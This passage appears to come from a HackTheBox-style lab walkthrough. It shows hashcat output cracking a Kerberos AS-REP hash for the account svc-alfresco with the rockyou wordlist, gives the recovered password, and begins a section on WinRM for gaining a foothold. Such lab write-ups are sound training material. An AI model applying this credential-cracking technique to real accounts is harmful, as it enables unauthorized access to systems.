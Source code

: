 ```shell

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB:e1765956ff8ea8dcc941...19a4e0
Time.Started.....: Tue Nov 19 22:19:16 2024 (6 secs)
Time.Estimated...: Tue Nov 19 22:19:22 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   772.1 kH/s (0.97ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4085760/14344385 (28.48%)
Rejected.........: 0/4085760 (0.00%)
Restore.Point....: 4084736/14344385 (28.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: s456822 -> s3r3ndipit
Hardware.Mon.#1..: Util: 85%

Started: Tue Nov 19 22:18:54 2024
Stopped: Tue Nov 19 22:19:23 2024
```
Password for `svc-alfresco` cracked: `s3rvice`

## Foothold

### PS Remote

**Windows Remote Management** (WinRM) is a Windows-native protocol used for remote management. At its core, it utilizes the Simple Object Access Protocol (SOAP) to communicate with remote computers, servers, operating systems, and applications.

WinRM is a command-line tool that enables the following tasks:

1. Remotely interface with hosts, including workstations, servers, and any operating system that supports WinRM, using standard network channels and ports.
2. Execute commands on remote systems that are network-accessible but not local.
3. Monitor, manage, and configure servers, operating systems, and client machines from a remote location.
